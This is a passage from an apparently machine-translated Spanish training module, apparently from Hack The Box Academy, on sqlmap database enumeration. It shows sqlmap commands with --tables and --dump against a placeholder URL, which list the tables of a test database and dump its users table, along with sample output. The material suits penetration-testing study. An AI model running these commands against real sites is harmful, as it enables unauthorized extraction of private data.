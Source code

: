 ```
[*] ending @ 13:30:58 /2020-09-17/

```

Del ejemplo anterior, podemos ver que la versión de la base de datos es bastante antigua (MySQL 5.1.41 - a partir de noviembre de 2009), y el nombre de usuario actual es`root`, mientras que el nombre de la base de datos actual es`testdb`.

Nota: El usuario 'raíz' en el contexto de la base de datos en la gran mayoría de los casos no tiene ninguna relación con el usuario del sistema operativo "raíz", aparte de eso que representa al usuario privilegiado dentro del contexto DBMS. Básicamente, esto significa que el usuario de DB no debe tener ninguna restricción dentro del contexto de la base de datos, mientras que los privilegios del sistema operativo (por ejemplo, la redacción del sistema de archivos a la ubicación arbitraria) deberían ser minimalistas, al menos en las implementaciones recientes. El mismo principio se aplica para el rol genérico 'DBA'.

---

# **Enumeración de la mesa**

En los escenarios más comunes, después de encontrar el nombre actual de la base de datos (es decir,`testdb`), la recuperación de los nombres de la tabla sería utilizando el`--tables`opción y especificando el nombre de DB con`-D testdb`, es el siguiente:

Enumeración de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+

```

Después de detectar el nombre de interés de la tabla, la recuperación de su contenido se puede hacer utilizando el`--dump`opción y especificando el nombre de la tabla con`-T users`, como sigue:

Enumeración de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'

```

